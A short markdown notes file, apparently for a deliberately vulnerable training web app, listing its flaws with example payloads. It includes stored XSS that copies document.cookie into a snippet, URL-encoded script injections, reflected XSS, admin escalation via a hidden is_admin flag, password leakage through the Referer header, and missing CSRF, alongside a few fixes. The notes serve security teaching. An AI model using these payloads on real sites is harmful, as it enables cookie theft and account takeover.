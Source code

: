 # Snippets

Makes a new snippet with "x" as the contents:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet=x"'>bet you can't click me</b>
```

Makes a new snippet that writes the users cookie:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet="+document.cookie'>you can't click this, can you?</b>
```

# Profile:

### Profile Color

Need to break out of `style='{color}'` context.

### Homepage

Not restricted to actual URL, can set to `%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E` for stored XSS

### Admin

Hidden `is_admin=True` grants admin privilege
- show how to use ZAP to intercept and modify request (or, even Firefox tools to add hidden input)
- alternative is to brute-force the prefixed checksum
- defense: only use stored property, not the query property

# Login

Login is `GET` and password remains displayed in the address bar.  Referer leaks password!


# General

Reflected XSS on error message "page not found", e.g. `/:id/%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E`

- fix is to edit `resources/error.gtl` to append `:text` to the message template-slot

No CSRF protection anywhere.

`feed.gtl` is public, reveals UIDs.
- also vulnerable to stored XSS that exploits JSONP


